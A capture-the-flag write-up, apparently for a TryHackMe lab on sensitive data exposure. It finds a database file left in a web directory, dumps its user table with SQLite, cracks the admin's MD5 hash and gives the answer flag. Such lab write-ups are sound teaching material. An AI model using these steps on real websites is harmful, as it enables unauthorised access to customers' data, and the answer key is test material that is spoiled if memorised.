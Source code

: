 # Sensitive Data Exposure

**Date:** 28, December, 2020

**Author:** Dhilip Sanjay S

---

- Sensitive data directly linked to customers.
    - Man in the Middle attack (The data can be captured due to weak encrption)
    - Directly on the web server itself.

- Types of Databases
    - SQL - MySQL, MariaDB
    - NoSQL - MongoDB
    - Flat File DB - SQLite

- Sensitive Data Exposure happens when the flat files are stored in the root directory of the website (i.e) one of the files that a suer connecting to the website is able to access.

- SQLite commands
    - `sqlite3 <database-name>` - To access a database.
    - `.tables` - To view the tables.
    - `PRAGMA table_info(customers);` - To see the table information.
    - `SELECT * FROM customers;` - To dump all the information from the table.

---
## Solutions

### What is the name of the mentioned directory?
- **Answer:** /assets
- **Steps to Reproduce:** 
    - Go to login page and view the source code. `Ctrl + U`
    ```html
    <!-- Must remember to do something better with the database than store it in /assets... -->
    ```
---

### Navigate to the directory you found in question one. What file stands out as being likely to contain sensitive data?
- **Answer:** webapp.db

---

### Use the supporting material to access the sensitive data. What is the password hash of the admin user?
- **Answer:** 6eea9b7ef19179a06954edd0f6c05ceb
- **Steps to Reproduce:** `sqlite3 webapp.db`
    ```sql
    sqlite> .tables
    sessions  users 

    sqlite> PRAGMA table_info(users);
    0|userID|TEXT|1||1
    1|username|TEXT|1||0
    2|password|TEXT|1||0
    3|admin|INT|1||0

    sqlite> select * from users;
    4413096d9c933359b898b6202288a650|admin|6eea9b7ef19179a06954edd0f6c05ceb|1
    23023b67a32488588db1e28579ced7ec|Bob|ad0234829205b9033196ba818f7a872b|1
    4e8423b514eef575394ff78caed3254d|Alice|268b38ca7b84f44fa0a6cdc86e6301e0|0
    ```
---

### What is the admin's plaintext password?
- **Answer:** qwertyuiop
- **Steps to Reproduce:** Use hashcat or crackstation.

---

### Login as the admin. What is the flag?
- **Answer:** THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}
- **Steps to Reproduce:** Type the username as `admin` and password as `qwertyuiop`.

---